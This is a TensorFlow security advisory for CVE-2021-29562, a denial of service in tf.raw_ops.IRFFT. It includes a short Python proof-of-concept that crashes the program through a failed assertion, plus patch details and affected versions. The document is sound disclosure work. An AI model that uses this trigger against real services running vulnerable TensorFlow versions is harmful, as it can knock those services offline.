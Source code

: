 ## TFSA-2021-050: `CHECK`-fail in `tf.raw_ops.IRFFT`

### CVE Number
CVE-2021-29562

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from the implementation of `tf.raw_ops.IRFFT`:

```python
import tensorflow as tf

values = [-10.0] * 130
values[0] = -9.999999999999995
inputs = tf.constant(values, shape=[10, 13], dtype=tf.float32)
inputs = tf.cast(inputs, dtype=tf.complex64)
fft_length = tf.constant([0], shape=[1], dtype=tf.int32)

tf.raw_ops.IRFFT(input=inputs, fft_length=fft_length)
```

The above example causes Eigen code to operate on an empty matrix. This triggers
on an assertion and causes program termination.

### Patches
We have patched the issue in GitHub commit
[1c56f53be0b722ca657cbc7df461ed676c8642a2](https://github.com/galeone/tensorflow/commit/1c56f53be0b722ca657cbc7df461ed676c8642a2).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
